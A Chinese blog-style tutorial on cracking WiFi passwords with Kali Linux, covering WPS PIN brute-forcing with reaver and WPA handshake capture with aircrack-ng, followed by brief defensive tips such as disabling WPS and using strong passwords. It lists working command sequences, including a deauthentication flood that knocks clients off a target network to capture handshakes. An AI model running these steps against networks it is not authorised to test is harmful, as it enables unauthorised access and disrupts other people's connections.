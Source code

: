 ```yaml
---
title: Kali系统下WiFi密码破解
date: 2015-11-01 11:01:00
category: 工具
tags: 
    - Kali
---
```


在网络渗透中,能够接入被攻击者的网络至关重要,只要黑客接入你的网络,利用DNS欺骗,arp攻击等各种钓鱼技术,基本上就能获取一切信息,WIFI网络的安全性重要性不言而喻!

手机上有很多类似360免费WIFI和WIFI万能钥匙的软件,可以"破解"WIFI密码,实际上这类软件不是"破解"而是"偷"密码,这类软件在安装的时候会自动上传你家的WIFI密码,也有可能是你一不小心分享出去的!分享之后别人使用软件就能连上你家的WIFI了,一般来说,商家WIFI比较多。

<!--more-->

## 常见的WIFI破解技术有2种:

攻击测试环境:kali linux 64位,可以安装双系统,如果用虚拟机的话必须要用外置USB网卡!

### 1.PIN

该技术主要利用路由器的wps功能的bug,PIN 码分前4 和后4，先破前4 只有最多一万个组合，破后4 中的前3 只有一千个组合，一共就是一万一千个密码组合。 10 的4 次方+10 的3 次方=11000 个密码组合。当reaver 确定前4 位PIN 密码后，其任务进度数值将直接跳跃至90.9%以上，也就是说只剩余一千个密码组合了。总共一万一千个密码!

主要攻击工具:reaver,该工具十分强大,有很多配置参数,这里只列出最简单的攻击步骤,仅供参考:
```
1.airmon-ng start wlan0 #启动网卡的监听模式
2.airodump-ng wlan0mon  #查看周围区域所有WIFI信号情况
3.reaver -i wlan0mon -b AP_MAC -vv  #开始pin
4.reaver -i wlan0mon -b AP_Mac -p WPS_PIN  #得到pin值获取密码
```

>其实现在很多路由器都关闭了wps功能,所以没法pin,而且很多新的路由器都是防pin!

### 2.暴力穷尽破解

该技术理论上只要计算机计算能力够强大,没有什么密码破解不了!只是时间长短的问题.先抓握手包然后跑包!

主要工具: aircrack-ng
```
1.airmon-ng check kill        #kill一些无关进程
2.airmon-ng start wlan0       #开启网卡监听模式
3.airodump-ng wlan0mon        #查看周围区域所有WIFI信号情况
4.airodump-ng -c 信道 --bssid 目标mac -w wep wlan0mon   #开始抓包
5.airodump-ng -c 信道 --bssid 目标mac wlan0mon  #查看当前环境的WiFi连接情况
6.aireplay-ng --deauth 10000 -a 目标mac -c 客户端mac wlan0mon   #对连接到目标ap的客户端攻击,使其掉线,抓取握手包!
```

备注:抓包的关键是第6步抓取握手包,所谓握手包就是对方设备掉线后重新连接WIFI时候的数据包,只要抓到握手包就可以了。

拿到握手包后切换到windows系统,用EWSA等软件跑包,跑包速度看机器配置,主要是看显卡配置,本人笔记本i7+gt750M,一秒钟2万次,其实也看运气,如果是弱密码,分分钟钟的事情,如果是包含字母\标点符号\特殊符号的密码......那几乎不可能!

### 3.防备措施:
1. 不要安装 xxx免费WIFI等软件,如果不小心把密码分享出去的话,只能改密码了!

2. 关闭路由器wps功能.此功能大部分人都用不到

3. 隐藏ssid.这样别人就搜不到你家的WIFI信号，虽然用途并不大

4. 使用复杂密码,包含字母\标点符号\特殊符号!这招最有效
